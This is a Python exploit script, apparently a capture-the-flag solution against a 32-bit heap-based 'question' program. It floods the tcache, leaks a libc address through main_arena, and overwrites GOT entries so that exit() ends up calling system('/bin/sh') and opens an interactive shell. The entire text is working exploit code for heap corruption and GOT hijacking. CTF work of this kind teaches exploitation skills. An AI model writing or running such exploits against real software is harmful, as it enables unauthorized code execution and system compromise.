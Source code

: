 ```python
    _set("0", _overwrite_size(b"\x01\x01"))

    _delete("0")
    _delete("1")
    _delete("1")
    _delete("1")
    _delete("1")
    _delete("1")
    _delete("1")
    _delete("0")
    _delete("1")
    _delete("2")
    _delete("1")
    _delete("0")

def _write_memory(dest, src):
    _set("6", b"\x00" * 0x18 + dest + "\x21" + "\x00" * 3)
    _set("6", p32(leaked - 0x20))

    _set("0", src)
####################################

p = _start()

# store entries in the tcache so that new free()s will be stored in the non-fast bins
# this also edits question 1's size to be 101 so that it will be placed in a large bin
_flood_tcache()

# the header for question 1 now stores <main_arena+56> so get the address stored in it's "question"
# and move back the correct offset to find the address storing question 1's prev
leaked = u32(_ask("1", True)) - 0x38

# overwrite question 2's "question" with the memory address
payload = _overwrite_size(b"\x21")
payload += b"\x00" * 0x18
payload += p32(0x0804b02c) # p32(leaked)
_set("1", payload)

# Print out question 2's "question" (which now leaks the memory address for <main_arena>)
leaked2 = u32(_ask("2", True)[:4])

print(hex(leaked2))
pause()

libc   = leaked2 - 0x067b40 # - 0x170BC8 - 0x067c10 + 0x38
system = libc + 0x03d200 # 0x03d250

print_banner = 0x080486dc
banner       = 0x0804b060
puts         = 0x0804b02c
_exit        = 0x0804b014

# Overwrite puts() with system(), banner with 'bin/sh', and exit() with print_banner()
# Therefore when calling exit(), it will invoke puts(banner) (which is system("/bin/sh"))
_create()

_write_memory(p32(_exit), p32(print_banner))
_write_memory(p32(banner), b"/bin/sh\x00")
_write_memory(p32(puts), p32(system))

#_ask("99", False)

p.interactive()
```